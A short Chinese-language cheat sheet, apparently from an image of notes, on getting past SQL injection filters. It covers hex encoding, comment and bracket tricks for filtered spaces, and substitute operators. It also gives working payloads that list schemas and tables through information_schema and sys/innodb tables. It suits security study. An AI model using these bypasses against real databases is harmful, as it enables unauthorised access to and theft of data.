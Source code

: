 ## **编码绕过**
is_numeric($_GET[‘id’]) ，过滤只允许数字，16进制编码sql注入。

^
## **空格被过滤**
空格过滤可以利用/**/代替空格。
利用括号，括号住变量。
```
所有库
select(group_concat(schema_name))from(information_schema.schemata)
库所有表
select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())
```

^
## **注释符被过滤**
将后面的单引号闭合即可。

^
## **or 被过滤，orderby、information_schema都不能用**
用其他逻辑运算符and ， && ， &， |  ,1^1^
查表名使用 select group_concat(table_name）from mysql.innodb_table_stats wheredatabase_name=database()

如果information_schema被禁止，通过sys.schema获取当前数据库表名
通过无列名注入获取表group_concat(某一字段所有值)。
<https://www.cnblogs.com/hello-there/p/12918265.html>

^
## **函数等效替换**
报错函数被过滤，寻找顶替。



^
## **存在转义函数**
```
addslashes($id);
将字符串里面的' " \等转义。
'将变成\'


如果此时下面存在
$id=str_replace(array("\\0","%00","\\'","'"),"",$id);

```
